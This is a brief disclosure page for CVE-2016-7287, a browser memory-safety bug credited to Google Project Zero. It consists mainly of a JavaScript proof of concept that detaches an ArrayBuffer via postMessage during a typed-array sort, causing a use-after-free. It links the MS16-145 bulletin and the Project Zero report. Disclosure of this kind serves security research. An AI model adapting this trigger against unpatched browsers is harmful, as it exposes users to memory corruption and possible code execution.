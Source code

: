 # CVE-2016-7287

- Report: Nov 2016
- Fix: Dec 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var buf = new ArrayBuffer( 0x10010);
var numbers = new Uint8Array(buf);

function v(){
   // neuter buf
   postMessage("test", "http://127.0.0.1", [buf])
   return 7;
}

function compareNumbers(a, b) {
  return {valueOf : v};
}

numbers.sort(compareNumbers);
```

## Reference

- [Microsoft (MS16-145)](http://technet.microsoft.com/security/bulletin/MS16-145)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=983)
